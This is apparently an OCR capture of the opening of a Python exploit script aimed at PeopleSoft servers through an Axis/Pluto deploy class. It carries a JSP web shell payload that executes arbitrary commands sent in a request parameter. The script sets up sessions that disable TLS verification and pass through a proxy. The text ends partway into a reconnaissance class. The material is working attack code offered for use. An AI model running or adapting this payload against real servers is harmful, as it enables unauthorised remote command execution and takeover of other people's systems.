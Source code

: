 ```py

from requests.packages.urllib3.exceptions import InsecureRequestWarning
requests.packages.urllib3.disable_warnings(InsecureRequestWarning)


try:
    import colorama
except ImportError:
    colorama = None
else:
    colorama.init()

    COLORS = {
        '+': colorama.Fore.GREEN,
        '-': colorama.Fore.RED,
        ':': colorama.Fore.BLUE,
        '!': colorama.Fore.YELLOW
    }


URL = sys.argv[1].rstrip('/')
CLASS_NAME = 'org.apache.pluto.portalImpl.Deploy'    # PeopleSoft’s pspc.war包里有的，而不是Axis通用的
PROXY = '192.168.85.1:8087'

# shell.jsp?c=whoami
PAYLOAD = '<%@ page import="java.util.*,java.io.*"%><% if (request.getParameter("c") != null) { Process p = Runtime.getRuntime().exec(request.getParameter("c")); DataInputStream dis = new DataInputStream(p.getInputStream()); String disr = dis.readLine(); while ( disr != null ) { out.println(disr); disr = dis.readLine(); }; p.destroy(); }%>'


class Browser:
    """Wrapper around requests.
    """

    def __init__(self, url):
        self.url = url
        self.init()

    def init(self):
        self.session = requests.Session()
        self.session.proxies = {
            'http': PROXY,
            'https': PROXY
        }
        self.session.headers={'Cookie': ''}   # 某些系统需要SSO才能访问，这里填Cookie
        self.session.verify = False

    def get(self, url ,*args, **kwargs):
        return self.session.get(url=self.url + url, proxies=self.session.proxies, *args, **kwargs)

    def post(self, url, *args, **kwargs):
        return self.session.post(url=self.url + url,proxies=self.session.proxies, *args, **kwargs)

    def matches(self, r, regex):
        return re.findall(regex, r.text)


class Recon(Browser):
    """Grabs different informations about the target.
    """

    def check_all(self):
```